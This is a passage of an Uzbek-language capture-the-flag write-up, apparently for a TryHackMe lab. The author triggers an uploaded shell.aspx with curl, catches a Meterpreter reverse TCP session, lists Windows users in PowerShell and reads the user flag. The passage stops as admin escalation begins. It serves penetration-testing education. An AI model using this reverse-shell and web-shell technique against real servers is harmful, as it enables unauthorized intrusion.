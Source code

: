 So'rov yuboramiz.
```
curl http://10.10.186.118:49663/nt4wrksv/shell.aspx
```

va MetaSploitdan quyidagicha javob olamiz
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.24.135:4444 
[*] Meterpreter session 1 opened (10.8.24.135:4444 -> 10.10.186.118:49813) at 2025-06-02 22:00:59 +0500

meterpreter > 
```

## Ana endi qiziq joyiga keldik)
Agar MSF(MetaSploit FrameWork)ni yaxshi bilmasangiz quyidagicha
```
meterpreter > help
```

**help** -- buyrug'ini tering

Bizga hozir server terminali kerak. 
shell deb yozamiz.
So'ng **powershell** deb yozib powershellga kiramiz. Menga shu qulay)
Ishni foydalanuvchilardan boshlaymiz

```
cd C:\Users
```

Serverda bor foydalanuvchilar:
```
Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----
d-----        7/25/2020   8:05 AM                .NET v4.5                     
d-----        7/25/2020   8:05 AM                .NET v4.5 Classic             
d-----        7/25/2020  10:30 AM                Administrator                 
d-----        7/25/2020   2:03 PM                Bob                           
d-r---        7/25/2020   7:58 AM                Public   
```

Bob foydalanuvchi papkasiga kiramiz. Kirsam bu yerda Desktop nomli papka bor ekan. Ichida esa user.txt.
BINGO!!! Biz 1-vazifani uddaladik. 

```
SssPS C:\Users\Bob\Desktop> cat user.txt   
cat user.txt
THM{harakat_qil}
```



## Endi esa Katta aka (ya'ni admin) huquqini olishga harakat qilamiz.
